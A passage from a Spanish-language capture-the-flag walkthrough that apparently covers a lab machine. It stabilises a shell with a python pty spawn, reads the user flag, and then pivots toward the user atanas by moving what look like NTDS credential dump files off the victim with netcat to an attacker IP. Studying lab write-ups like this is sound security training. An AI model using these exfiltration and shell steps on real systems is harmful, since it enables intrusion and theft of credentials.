 ```bash
which python
python -c 'import pty;pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Dandole a `cd /home` vemos que hay dos usuarios tomcat y atanas

```bash
find \-name user.txt 2>/dev/null | xargs cat
```

Vemos que la flag esta en el directorio **atanas** y que no podemos leer la flag

### User pivoting al usuario atanas {-}

```bash
cd tomcat
ls -la
cd to_archive
ls -la
cd pentest_data
ls -la
file *
```

Aqui vemos que hay dos ficheros y con el commando `file` vemos que hay un fichero data y un MS Windows registry file NT/2000.
Nos traemos estos dos ficheros a nuestro equipo de atacante.

1. en la maquina de atacante

    ```bash
    nc -nlvp 443 > ntds.bin
    ```

1. en la maquina victima

    ```bash
    nc 10.10.14.6 443 < 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
    ```

1. en la maquina de atacante

    ```bash
    nc -nlvp 443 > ntds.dit
    ```
